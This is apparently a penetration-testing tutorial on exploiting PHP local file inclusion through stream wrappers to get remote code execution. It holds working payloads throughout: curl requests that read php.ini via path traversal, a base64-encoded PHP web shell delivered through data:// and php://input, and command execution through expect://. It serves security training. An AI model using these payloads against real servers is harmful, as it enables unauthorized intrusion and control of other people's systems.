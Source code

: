 # PHP Wrappers
We can use many methods to execute remote commands, each of which has a specific use case, as they depend on the back-end language/framework and the vulnerable function's capabilities. 

One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session.

Other than such trivial methods, there are ways to achieve remote code execution directly through the vulnerable function without relying on data enumeration or local file privileges.
## Data
The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations.

So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability.
### Checking PHP Configurations
To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version. 
1. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. 
2. We will also use the `base64` filter we used in the previous section, as `.ini` files are similar to `.php` files and should be encoded to avoid breaking. 
3. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:
```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` to see its value:
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Now it will show if the option is enabled or not. If so, we can use the `data` wrapper.
### Remote Code Execution
The `data` wrapper can be used to include external data, including PHP code. We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

So, our first step would be to base64 encode a basic PHP web shell, as follows:
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:
```url
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

We may also use cURL for the same attack, as follows:
```bash
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
## Input
Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. 

The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
> **Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)
## Expect
Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams.

Expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did with `allow_url_include` earlier, but we'd `grep` for `expect` instead, and if it is installed and enabled we'd get the following:
```shell-session
extension=expect
```

To use the expect module, we can use the `expect://` wrapper and then pass the command we want to execute, as follows:
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```